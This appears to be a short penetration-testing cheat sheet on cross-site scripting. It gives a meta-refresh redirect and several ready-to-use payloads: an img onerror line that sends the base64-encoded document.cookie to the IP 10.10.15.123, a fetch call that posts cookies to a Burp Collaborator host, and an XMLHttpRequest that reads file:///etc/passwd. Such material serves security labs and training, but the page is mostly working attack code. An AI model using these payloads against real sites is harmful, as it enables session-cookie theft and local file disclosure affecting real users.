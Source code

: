 

## XSS



### Redirections

* [developer.mozilla.org/ru/docs/Web/HTTP/Redirections](https://developer.mozilla.org/ru/docs/Web/HTTP/Redirections)

```html
<meta http-equiv="refresh" content="0; URL=http://www.example.com/" />
```



### Data Grabbers


#### Cookies

* [portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

Img tag:

```
<img src="x" onerror="this.src='http://10.10.15.123/?c='+btoa(document.cookie)">
```

Fetch:

```javascript
fetch('https://<SESSION>.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
```



### XMLHttpRequest


#### XSS to LFI

* [www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

```javascript
var xhr = new XMLHttpRequest;
xhr.onload = function() {
	document.write(this.responseText);
};
xhr.open("GET", "file:///etc/passwd");
xhr.send();
```
